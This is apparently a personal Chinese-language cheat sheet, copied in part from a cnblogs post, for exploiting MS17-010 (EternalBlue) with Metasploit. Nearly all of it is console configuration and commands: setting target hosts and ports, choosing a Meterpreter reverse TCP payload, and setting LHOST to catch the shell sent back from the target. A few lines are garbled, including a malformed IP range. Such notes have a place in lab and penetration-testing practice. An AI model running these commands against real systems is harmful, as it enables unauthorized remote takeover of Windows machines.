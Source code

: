 ------------------------------


show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.23.12    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.233.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) > set  SMBDomain   admin-PC
SMBDomain => admin-PC

========================== 正确的配置！【】lhost

msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.2.0.213
lhost => 10.2.0.213


~~~~~~~~~~~~~~~~~~~

输入：set  RHOSTS  192.168.125.125-129.168.125.140

选择漏洞攻击模块： use exploit/windows/smb/ms17_010_eternalblue   
查看这个漏洞的信息：info
show targets
show  payloads
set payload windows/x64/meterpreter/reverse_tcp

要攻击主机的ip：set   RHOST  192.168.125.138
LHOST，也就是我们主机的ip，用于接收从目标机弹回来的shell：set  LHOST 192.168.125.129
不设置lport的话，默认是4444端口监听

来自 <https://www.cnblogs.com/csnd/p/11807588.html> 


~~~~~~~~~~~~~~~~~~~
